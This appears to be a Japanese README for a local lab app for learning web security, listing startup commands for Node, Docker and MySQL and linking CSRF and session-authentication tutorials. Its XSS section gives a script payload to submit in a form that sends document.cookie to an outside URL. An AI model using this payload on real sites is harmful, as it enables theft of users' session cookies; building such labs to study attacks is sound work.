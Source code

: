## 起動

```
npx nodemon index.js
```

```
dc up -d
dc exec mysql /bin/bash 
mysql -uroot -ptest
show databases;
use test;
show tables;

+-------------------+
| Tables_in_test_db |
+-------------------+
| users             |
+-------------------+

```

## XSS

以下をフォームに入れて送信する
```
<script type='text/javascript'>document.location='https://www.google.com?cookie=' + document.cookie;</script>
```

## 認証方法

[Session Authentication](https://roadmap.sh/guides/session-authentication)

## 参考
[GoogleDoc](https://docs.google.com/document/d/1aWrifF9T9D7zEKrgalbekyStfXt0jegCnjblqRCkxFY/edit#)
[脆弱なサイトと罠サイトを実際に作って学ぶ『CSRF』とその対策](https://www.hypertextcandy.com/csrf-hands-on-tutorial)
[ホワイトハッカーへの道　三歩目](https://qiita.com/ichimura/items/e91df821a32aefa21bda)
